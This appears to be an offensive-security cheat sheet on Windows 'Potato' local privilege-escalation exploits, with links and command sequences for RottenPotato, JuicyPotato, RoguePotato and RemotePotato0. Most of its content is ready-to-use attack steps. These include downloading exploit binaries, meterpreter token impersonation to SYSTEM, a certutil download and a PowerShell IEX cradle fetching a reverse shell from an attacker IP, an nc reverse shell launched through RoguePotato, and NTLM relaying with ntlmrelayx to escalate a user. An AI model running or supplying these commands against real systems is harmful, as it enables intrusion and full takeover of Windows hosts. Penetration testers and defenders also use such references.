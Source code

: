 # Potatoes

* [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
* [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)




## RottenPotato

* [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
* [https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```




## LonelyPotato

* [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)




## JuicyPotato

* [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
* [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
* [https://ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
...Change LHOST to 10.10.13.37 and LPORT to 443...
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
$ sudo rlwrap nc -lvnp 443
Cmd > .\j.exe -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
```




## RoguePotato

* [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ socat tcp-listen:135,reuseaddr,fork tcp:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```




## RemotePotato0

* [https://github.com/antonioCoco/RemotePotato0/releases](https://github.com/antonioCoco/RemotePotato0/releases)

```
$ sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
$ sudo ntlmrelayx.py -t ldap://192.168.1.11 --no-wcf-server --escalate-user snovvcrash
Cmd > query user
Cmd > .\RemotePotato0.exe -r 10.10.13.37 -p 9998 -s 5
```




## GenericPotato

* [https://micahvandeusen.com/the-power-of-seimpersonation/](https://micahvandeusen.com/the-power-of-seimpersonation/)
* [https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)
